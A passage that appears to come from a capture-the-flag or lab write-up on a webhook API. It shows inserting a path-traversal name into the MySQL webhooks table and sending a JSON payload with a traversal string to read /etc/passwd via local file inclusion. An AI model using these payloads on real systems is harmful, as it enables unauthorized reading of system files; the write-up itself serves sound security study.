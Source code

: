 We just need to specify a HTTP header `X-Api-Key`. Using this, we can try to exploit LFI next. Within the `LogsController.php` code, there's this interesting part:

```php
$logPath = "/logs/{$webhook_find->name}/";
```

The `name` of the webhook seems to directly taken and used as the `$logPath` variable. We cannot use `../../../../` as the name using the web API. However, we do have access to the MySQL database.&#x20;

Login to the MySQL database and insert this entry:

```sql
use webhooks_api;
INSERT into webhooks VALUES (4,'02984d13-3974-4a9f-b31b-aa6a9557cb80','../../../../../../','desc','createLogFile');

MySQL [webhooks_api]> select * from webhooks;
+----+--------------------------------------+--------------------+-------------------+---------------+
| id | uuid                                 | name               | description       | action        |
+----+--------------------------------------+--------------------+-------------------+---------------+
|  1 | fda96d32-e8c8-4301-8fb3-c821a316cf77 | tests              | webhook for tests | createLogFile |
|  2 | e2ee722a-3a0c-49b6-be2c-a3a78463ce24 | test               | test              | sendRequest   |
|  3 | 7de92b9b-e356-4b69-a6ba-8da32d218b3c | lfi                | test              | createLogFile |
|  4 | 02984d13-3974-4a9f-b31b-aa6a9557cb81 | lfi1               | test              | createLogFile |
|  5 | 02984d13-3974-4a9f-b31b-aa6a9557cb80 | ../../../../../../ | desc              | createLogFile |
+----+--------------------------------------+--------------------+-------------------+---------------+
```

Now, we just need to bypass the string checks within the code using this:

```json
{"action":"read","log_name":"logs/. ./etc/passwd"}
```

<figure><img src="../../.gitbook/assets/image (4206).png" alt=""><figcaption></figcaption></figure>
